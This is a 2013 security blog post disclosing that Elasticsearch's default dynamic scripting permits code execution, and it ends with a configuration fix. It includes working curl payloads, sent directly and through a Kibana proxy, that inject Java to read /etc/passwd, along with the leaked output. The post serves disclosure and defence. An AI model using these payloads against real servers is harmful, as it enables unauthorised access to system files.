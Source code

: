 #date: 2013-11-30 20:33:00 GMT
#slug: elasticsearch-command-execution-using-script
#tumblr_post_url: http://blog.liftsecurity.io/post/68592779657/elasticsearch-command-execution-using-script
#tags: elasticsearch,feature,command execution,script
#title: Elasticsearch Command Execution using "script"
#type: text

In the process of trying to full text index all of the source code from node modules within npm for the Node Security Project, I encountered a feature of Elasticsearch that I couldn't stay away from playing with: scripting.  
  
Sometimes the most innocent of features can create a vulnerability. Scripting is enabled by default in Elasticsearch and if left bound to a public interface allows for easy system command execution.  
  
**Elasticsearch**  
  
Here is a simple example to read /etc/passwd  
  

```bash
# Create a document
curl -XPUT :9200/blog/article/1/ -d '{"foo":"bar"}'
```

```bash
# Update it running the provided script. It puts the file contents in the content field.
curl -XPOST :9200/blog/article/1/_update -d '{"script": "ctx._source.content = 1;import java.util.*;import java.io.*;String content=new Scanner(new File("/etc/passwd")).useDelimiter("\\Z").next();ctx._source.content=content"}'
```
  
```bash
# Now get the content
curl :9200/blog/article/1/
```
  
**Result**
```js
{  
"_index" : "blog",  
"_type" : "article",  
"_id" : "2",  
"_version" : 2,  
"exists" : true, "_source" : {"content":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/bin/sh\nbin:x:2:2:bin:/bin:/bin/sh\nsys:x:3:3:sys:/dev:/bin/sh\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/bin/sh\nman:x:6:12:man:/var/cache/man:/bin/sh\nlp:x:7:7:lp:/var/spool/lpd:/bin/sh\nmail:x:8:8:mail:/var/mail:/bin/sh\nnews:x:9:9:news:/var/spool/news:/bin/sh\nuucp:x:10:10:uucp:/var/spool/uucp:/bin/sh\nproxy:x:13:13:proxy:/bin:/bin/sh\nwww-data:x:33:33:www-data:/var/www:/bin/sh\nbackup:x:34:34:backup:/var/backups:/bin/sh\nlist:x:38:38:Mailing List Manager:/var/list:/bin/sh\nirc:x:39:39:ircd:/var/run/ircd:/bin/sh\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh\nnobody:x:65534:65534:nobody:/nonexistent:/bin/sh\nlibuuid:x:100:101::/var/lib/libuuid:/bin/sh\nsyslog:x:101:103::/home/syslog:/bin/false\nmessagebus:x:102:105::/var/run/dbus:/bin/false\nlandscape:x:103:108::/var/lib/landscape:/bin/false\nsshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin\nwhoopsie:x:105:109::/nonexistent:/bin/false\nelasticsearch:x:106:113::/usr/share/elasticsearch:/bin/false\nntp:x:107:114::/home/ntp:/bin/false"}  
}
```


  
**Kibana**  
Sometimes Elasticsearch is hidden behind the veil of another service like Kibana. It's still possible to get execution using Kibana, as it essentially proxies our queries straight into Elasticsearch.

```bash
curl 'http://kibana.example.net/logstash-2013.11.11/_search' -X POST -H 'Authorization: Basic eWV0aXM6em9vbXpvb21idXR0ZXI=' -H 'Host: kibana.example.net' -d @script_kibana
```


  
_Contents of @script_kibana_

```js
{"query":{"filtered":{"query":{"bool":{"should":[{"query_string":{"query":"*"}}]}},"filter":{"bool":{"must":[{"match_all":{}},{"range":{"@timestamp":{"from":1384193353299,"to":1384196953300}}},{"bool":{"must":[{"match_all":{}}]}}]}}}},"highlight":{"fields":{},"fragment_size":2147483647,"pre_tags":["@start-highlight@"],"post_tags":["@end-highlight@"]},"size":1,"sort":[{"@timestamp":{"order":"desc"}}],"script_fields": {"uid_in_script": **{"script": "import java.util.*;import java.io.*;String content = new Scanner(new File("/etc/passwd")).useDelimiter("\Z").next();return content;"}**}}
```


  
  
**Avoid having somebody run commands on your Elasticsearch servers**  
  
You can disable this feature by adding the following to your Elasticsearch config file, then restarting the service. Keep in mind that you will want to disable this on all the nodes in your cluster.

```
script.disable_dynamic: true
```


  
Of course if you need to have scripting enabled and don't have your nodes exposed to the outside world I would just recommend that you build your elastisearch payloads very methodically not letting the user specify specifics that end up in the query / update payloads.
